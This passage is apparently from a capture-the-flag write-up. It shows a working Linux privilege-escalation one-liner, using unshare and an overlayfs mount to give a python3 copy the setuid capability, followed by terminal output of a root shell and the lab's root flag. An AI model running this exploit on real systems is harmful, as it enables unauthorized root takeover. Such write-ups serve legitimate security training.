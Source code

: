 ```bash 
metalytics@analytics:/tmp/.alter$ ./c.sh 
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```


**It worked, so now just we need to update the script to get a root shell and get the flag**

```bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -p")'
```

```bash 
metalytics@analytics:/tmp/.alter$ ./c.sh 
root@analytics:/tmp/.alter# whoami
root
root@analytics:/tmp/.alter# cat /root/root.txt 
19bf1d2e39bdb1db8e085fea83d70e42
```